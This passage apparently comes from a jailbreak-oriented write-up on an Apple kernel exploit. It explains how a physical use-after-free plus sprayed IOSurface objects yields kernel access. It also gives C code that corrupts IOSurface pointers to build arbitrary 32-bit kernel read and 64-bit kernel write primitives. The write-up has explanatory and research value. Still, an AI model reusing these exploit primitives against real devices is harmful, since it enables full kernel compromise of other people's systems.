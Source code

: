1. **Use Count Pointer**: Allows a **32-bit read**.
2. **Indexed Timestamp Pointer**: Allows a **64-bit write**.

By overwriting these pointers, we redirect them to arbitrary addresses in kernel memory, enabling read/write capabilities.

#### 32-Bit Kernel Read

To perform a read:

1. Overwrite the **use count pointer** to point to the target address minus a 0x14-byte offset.
2. Use the `get_use_count` method to read the value at that address.

```c
uint32_t get_use_count(io_connect_t client, uint32_t surfaceID) {
    uint64_t args[1] = {surfaceID};
    uint32_t size = 1;
    uint64_t out = 0;
    IOConnectCallMethod(client, 16, args, 1, 0, 0, &out, &size, 0, 0);
    return (uint32_t)out;
}

uint32_t iosurface_kread32(uint64_t addr) {
    uint64_t orig = iosurface_get_use_count_pointer(info.object);
    iosurface_set_use_count_pointer(info.object, addr - 0x14); // Offset by 0x14
    uint32_t value = get_use_count(info.client, info.surface);
    iosurface_set_use_count_pointer(info.object, orig);
    return value;
}
```

#### 64-Bit Kernel Write

To perform a write:

1. Overwrite the **indexed timestamp pointer** to the target address.
2. Use the `set_indexed_timestamp` method to write a 64-bit value.

```c
void set_indexed_timestamp(io_connect_t client, uint32_t surfaceID, uint64_t value) {
    uint64_t args[3] = {surfaceID, 0, value};
    IOConnectCallMethod(client, 33, args, 3, 0, 0, 0, 0, 0, 0);
}

void iosurface_kwrite64(uint64_t addr, uint64_t value) {
    uint64_t orig = iosurface_get_indexed_timestamp_pointer(info.object);
    iosurface_set_indexed_timestamp_pointer(info.object, addr);
    set_indexed_timestamp(info.client, info.surface, value);
    iosurface_set_indexed_timestamp_pointer(info.object, orig);
}
```

#### Exploit Flow Recap

1. **Trigger Physical Use-After-Free**: Free pages are available for reuse.
2. **Spray IOSurface Objects**: Allocate many IOSurface objects with a unique "magic value" in kernel memory.
3. **Identify Accessible IOSurface**: Locate an IOSurface on a freed page you control.
4. **Abuse Use-After-Free**: Modify pointers in the IOSurface object to enable arbitrary **kernel read/write** via IOSurface methods.

With these primitives, the exploit provides controlled **32-bit reads** and **64-bit writes** to kernel memory. Further jailbreak steps could involve more stable read/write primitives, which may require bypassing additional protections (e.g., PPL on newer arm64e devices).


